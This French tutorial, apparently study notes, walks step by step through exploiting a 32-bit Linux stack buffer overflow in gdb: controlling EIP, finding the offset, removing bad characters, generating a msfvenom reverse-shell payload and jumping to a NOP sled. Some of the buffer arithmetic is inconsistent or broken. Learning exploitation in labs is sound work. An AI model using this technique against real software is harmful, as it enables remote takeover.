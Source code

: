 **Take Controle of EIP**

Avec `gdb`, envoyer un nombre important de 'A' au programme jusqu'a obtenir une erreur soit (`SIGSEGV, Segementation fault`)

```sh
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
(gdb) run $(python2 -c "print 'A' * 1200")
```

A partir des informations du registre `info registers`, verifier que nous avons bien ecrit sur `EIP` et qu'il a les valeurs `A` soit `0x41414141`

---

**Finding the offset**

Maintenant il faut chercher le `offset` c'est la taille exact qu'il faut pour écrasé sur `EIP`

```sh
msf-pattern_create -l 100
```

Executer la sortie de la commande dans `gdb` 

```sh
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4A...
```

Verifier que `EIP` a une nouvelle valeur, prendre cette valeur et trouver l'`offset` correspondant.

```sh
msf-pattern_offset -q {EIP_VALUE}
```

Ceci vas retourner une valeur qui sera la taille de note `offset`.

---

**Determine the Length for Shellcode**

Apres avoir trouver l'`offset` , nous devons maintenant découvrir de combien d’espace nous disposons pour que notre reverse shell

nous avons besoin de :

```sh
   Buffer = "A" * (offset - 100 - 150 - 4)
     NOPs = "\x90" * 4
Shellcode = "\x44" * 50
      EIP = "\x66" * 4
```

```sh
(gdb) run $(python2 -c 'print "A" * (54 - 100 - 150 - 4) + "\x90" * 4 + "B" * 50 + "\x66" * 4')
```

Verifier que nous controllons `EIP` et qu'il a une nouvelle valeur soit `0x66666666`.

---

**Find bad caracter**

Une fois que nous controllons l'`EIP`, nous devons identifier les mauvais caractères

Nous utilisons cette liste de caractères  pour connaître tous les caractères que nous devons prendre en compte et éviter lors de la génération de notre shellcode.

Cette chaîne fait `256`  octets

```sh
$CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

echo $CHARS | sed 's/\\x/ /g' | wc -w
```

Nous devons donc recalculer notre tampons

```sh
Buffer = "A" * (offset - 256 - 4)
 CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
   EIP = "\x66" * 4
```

Maintenant il faut mettre un point d'arrêt au niveau de la fonction vulnerable pour que l'exécution s'arrête à ce stade, et nous puissions analyser le contenu de la mémoire.

```sh
(gdb) break bowfunc 

Breakpoint 1 at 0x56555551
```

Maintenant, nous pouvons exécuter l’entrée nouvellement créée et consulter la mémoire.

```sh
(gdb) run $(python2 -c 'print "A" * (54 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```

Après avoir exécuté notre tampon avec les mauvais caractères et atteint le point d'arrêt, nous pouvons examiner la pile.

```sh
(gdb) x/2000xb $esp+500
```

> Descendre plus bas et chercher le point final de `A` et le point de départ de `CHARS`

Nous voyons où se termine notre `A` et où commence la variable `CHARS`

> Noter tout les caractères qui saute l'ordre de `CHARS`, supprimer le de `CHARS` et ajuster le numéro de `CHARS` en retirant `-1` soit : `Buffer = "A" * (offset - (256 - n) - 4)` puis **rexécuter**

**Ce processus doit être répété jusqu'à ce que tous les caractères susceptibles d'interrompre le flux soient supprimés.**

> [!NOTE] Generalement nous devont verifier le `\x00` qui nous indique que ce caractère n'est pas autorisé ici et doit être supprimé en conséquence.


Ces caractères noter sera notre `bad characters`

---

**Generating Shellcode**

```sh
msfvenom --platform linux -a x86 -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=4444 -f c -b "<badchars>" -o shellcode.c
```

Maintenant que nous avons notre shellcode, nous l'ajustons pour n'avoir qu'une seule chaîne, puis nous pouvons adapter et soumettre à nouveau notre simple exploit.

```sh
   Buffer = "A" * (offset - 124 - 95 - 4)
     NOPs = "\x90" * 4
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4
```

```sh
(gdb) run $(python -c 'print "\x55" * (offset - 124 - 95 - 4) + "\x90" * 4 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
```

Ensuite, nous vérifions si les premiers octets de notre shellcode correspondent aux octets après le NOPS.

Aller a la fin des `NOPs` et obsever le debut du shellcode

```sh
(gdb) x/2000xb $esp+550
```

---

**Identification of the Return Address**

Après avoir vérifié que nous contrôlons toujours l'EIP avec notre shellcode, nous avons maintenant besoin d'une adresse mémoire où se trouvent nos NOP pour dire à l'EIP d'y accéder.

Cette adresse mémoire ne doit contenir aucun des mauvais caractères que nous avons trouvés précédemment.

```sh
(gdb) x/2000xb $esp+1400
# 0xffffd644: 0x90  0x90  0x90  0x90  0x90  0x90  0x90  0x90
# 0xffffd64c: 0x90  0x90  0x90  0x90  0x90  0x90  0x90  0x90
# 0xffffd654: 0x90  0x90  0x90  0x90  0x90  0x90  0x90  0x90
# 0xffffd65c: 0x90  0x90  0xda  0xca  0xba  0xe4  0x11  0xd4
```

Ici, il faut maintenant choisir une adresse à laquelle on se réfère `EIP`

Après avoir sélectionné une adresse mémoire, nous remplaçons notre " `\x66`" qui écrase l'EIP pour lui dire de passer à l'adresse selectionner. (`0xffffd64c`)

Notez que la saisie de l'adresse selectionner est saisie à l'envers.
 
```sh
   Buffer = "A" * (offset - 100 - 95 - 4)
     NOPs = "\x90" * 4
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = \x4c\xd6\xff\xff"
```

> **Executer le programme pour obtenir un reverse shell**

```sh
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```

